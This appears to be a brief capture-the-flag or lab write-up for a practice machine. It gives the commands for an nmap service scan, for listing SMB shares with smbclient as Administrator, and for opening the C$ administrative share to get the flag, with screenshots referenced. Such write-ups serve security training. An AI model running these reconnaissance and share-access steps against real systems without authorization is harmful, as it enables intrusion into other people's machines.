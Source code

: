 # 1.Port Scan
ip=10.129.170.12

`nmap -sC -sV -Pn $ip`

![b989dca31c40ecce876db60620e9d171.png](../_resources/b989dca31c40ecce876db60620e9d171.png)

# 2.Smbclient Directory Search

`smbclient -L \\\\$ip\\ -U Administrator`

![d75cfb911650c84ca940a2f73e4f4d23.png](../_resources/d75cfb911650c84ca940a2f73e4f4d23.png)
## Flag Get
`smbclient  \\\\$ip\\C$ -U Administrator`

![67a8f48cbe86f1d02eb5e4ae98e97fb9.png](../_resources/67a8f48cbe86f1d02eb5e4ae98e97fb9.png)



